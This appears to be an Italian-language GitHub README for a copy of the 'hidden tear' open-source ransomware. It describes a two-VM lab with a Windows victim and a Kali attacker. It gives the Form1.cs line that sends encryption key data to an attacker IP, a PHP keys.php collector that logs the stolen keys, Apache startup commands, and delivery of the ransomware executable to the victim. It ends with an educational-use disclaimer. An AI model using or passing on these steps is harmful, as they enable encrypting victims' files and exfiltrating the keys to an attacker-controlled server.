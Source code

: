 Copia dello storico ransomware open source:

         _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
                                                     
Per utilizzarlo mi sono servito di due macchine virtuali: una con windows 10 che fungeva da vittima e una con kali linux che faceva da attaccante.

**Nel mio pc, con visual studio**

* A riga 40 del file *Form1.cs* ho aggiunto l'indirizzo IP della macchina con kali linux e l'indirizzamento al file keys.php spiegato nello step successivo:
```
  string targetURL = "http://192.168.17.128/keys.php?info=";                                                                     
```
* Nei file di encription e decription ho corretto il problema del padding


**Nella macchina con kali linux**
* Nella cartella var/www/html ho creato un file data.txt e un file keys.php
```
sudo gedit data.txt
sudo gedit keys.php
         
```
* Con i permessi di amministratore ho permesso l'accesso read and write al file data.txt da parte di www-data . Bisogna entrare nel file manager in modalità sudo per entrarci ho eseguito:
```
sudo xdg-open .
```


* In *keys.php* ho inserito questo codice:
```
 <?php
	$info = $_GET['info'];
	$file = fopen("data.txt", "a");
	fwrite($file, $info."". PHP_EOL);
	fclose($file);
?>
         
```
* Infine ho aperto un terminale nella stessa cartella e ho lanciato:
```
service apache2 start                                                                           
```


**Alla macchina 'vittima'** 
ho inviato i file *hidden-tear.exe* e *hidden-tear-decripter.exe* contenuti nella cartella bin/Debug con i rispettivi nomi

**Riferimento**
[Riferimento video](https://www.youtube.com/watch?v=ILlTB0-xT-k&t=387s)

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

Anche se questo può essere utile per alcuni, ci sono rischi significativi. Può essere utilizzato solo per scopi educativi. Non usarlo come ransomware! Potresti finire in prigione con l'accusa di ostruzione alla giustizia, anche se sei innocente.
